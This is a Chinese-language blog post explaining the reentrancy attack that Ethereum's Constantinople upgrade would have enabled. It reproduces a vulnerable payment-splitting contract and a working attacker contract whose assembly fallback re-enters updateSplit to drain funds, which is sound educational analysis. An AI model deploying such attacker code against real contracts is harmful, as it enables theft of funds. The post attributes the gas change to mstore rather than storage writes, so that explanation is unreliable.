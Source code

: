 ```yaml
---
layout: post
title: "Ethereum 君士坦丁堡重入攻击"
description: ""
category: 
tags: []
---
```

{% include JB/setup %}

### 前情简介

以太坊预计在 [7080000](https://amberdata.io/blocks/7080000) 区块进行君士坦丁堡网络升级，升级内容主要包含了 [EIP 145](https://eips.ethereum.org/EIPS/eip-145)、[EIP 1014](https://eips.ethereum.org/EIPS/eip-1014)、[EIP 1052](https://eips.ethereum.org/EIPS/eip-1052)、[EIP 1283](https://eips.ethereum.org/EIPS/eip-1283) 和 [EIP 1234](https://eips.ethereum.org/EIPS/eip-1234)，但就在升级的前一天，[ChainSecurity](https://medium.com/chainsecurity/constantinople-enables-new-reentrancy-attack-ace4088297d9) 爆出此次升级可能会导致主网上的合约遭受重入攻击。

### 攻击分析

ChainSecurity 示例中被攻击合约如下

```solidity
pragma solidity ^0.5.0;

contract PaymentSharer {
  mapping(uint => uint) splits;
  mapping(uint => uint) deposits;
  mapping(uint => address payable) first;
  mapping(uint => address payable) second;

  function init(uint id, address payable _first, address payable _second) public {
    require(first[id] == address(0) && second[id] == address(0));
    require(first[id] == address(0) && second[id] == address(0));
    first[id] = _first;
    second[id] = _second;
  }

  function deposit(uint id) public payable {
    deposits[id] += msg.value;  // 1.
  }

  function updateSplit(uint id, uint split) public {
    require(split <= 100);
    splits[id] = split;
  }

  function splitFunds(uint id) public {
    // Here would be: 
    // Signatures that both parties agree with this split

    // Split
    address payable a = first[id];
    address payable b = second[id];
    uint depo = deposits[id];
    deposits[id] = 0;

    a.transfer(depo * splits[id] / 100);          // 2.
    b.transfer(depo * (100 - splits[id]) / 100);  // 5.
  }
}
```

攻击合约如下

```solidity
pragma solidity ^0.5.0;

import "./PaymentSharer.sol";

contract Attacker {
  address private victim;
  address payable owner;

  constructor() public {
    owner = msg.sender;
  }

  function attack(address a) external {
    victim = a;
    PaymentSharer x = PaymentSharer(a);
    x.updateSplit(0, 100);
    x.splitFunds(0);
  }

  function () payable external {  // 3.
    address x = victim;
    assembly{
        mstore(0x80, 0xc3b18fb600000000000000000000000000000000000000000000000000000000)
        pop(call(10000, x, 0, 0x80, 0x44, 0, 0))  // 4.
    }    
  }

  function drain() external {
    owner.transfer(address(this).balance);
  }
}
```

1. 首先攻击者调用 `deposit` 发送一定数量的 ETH 给被攻击合约
2. 接着调用 `attack` 方法，将所有资金发送给攻击者的地址
3. 由于攻击者是一个合约地址，因此 fallback 方法被触发
4. fallback 方法重新触发 updateSplit 并将 splits[id] 值更改为 0
5. 此时继续执行第二笔转账就会导致合约资金被盗取

> 流程可以参考 twitter 上的[这张图](https://twitter.com/mandrigin/status/1085579865380843520)

![constantinople reentrancy attack]({{ site.url }}/assets/pictures/blockchain/ethereum/constantinople_reentrancy_attack.png)

之所以攻击能够生效，是因为 `transfer` 方法默认指定 2300 gas，而 `mstore` 操作在此次网络升级之前消耗的 gas 超过 2300，而在此次网络更新之后降低为 200 gas，这就导致了 mstore 能够成功执行。

#### inline assembly code

> call(g, a, v, in, insize, out, outsize)  
> *call contract at address a with input mem[in…(in+insize)) providing g gas and v wei and output area mem[out…(out+outsize)) returning 0 on error (eg. out of gas) and 1 on success*

最后我们来分析一下这段汇编代码做了什么，首先通过 `web3.utils.sha3("updateSplit(uint256,uint256)")` 计算并获取方法签名的前**4**个字节(0xc3b18fb6)，接着我们将该方法签名补齐32字节并存储 0x80 地址，然后通过 `call` 调用，`call` 的参数解释如下，指定花费 gas 10000，被攻击者合约地址 x，方法和参数起始地址 0x80，参数的长度 0x44(即 68 bytes = 4 method sign bytes + 32 bytes uint256 + 32 bytes uint256)，输出值的起始地址 0，输出值的长度 0，最后把 `call` 返回值从栈中移除。


[*ethereum-constantinople-upgrade-announcement*](https://blog.ethereum.org/2019/01/11/ethereum-constantinople-upgrade-announcement/)  
[*security-alert-ethereum-constantinople-postponement*](https://blog.ethereum.org/2019/01/15/security-alert-ethereum-constantinople-postponement/)  
[*Constantinople enables new Reentrancy Attack*](https://medium.com/chainsecurity/constantinople-enables-new-reentrancy-attack-ace4088297d9)  
[*Solidity Assembly*](https://solidity.readthedocs.io/en/v0.5.2/assembly.html)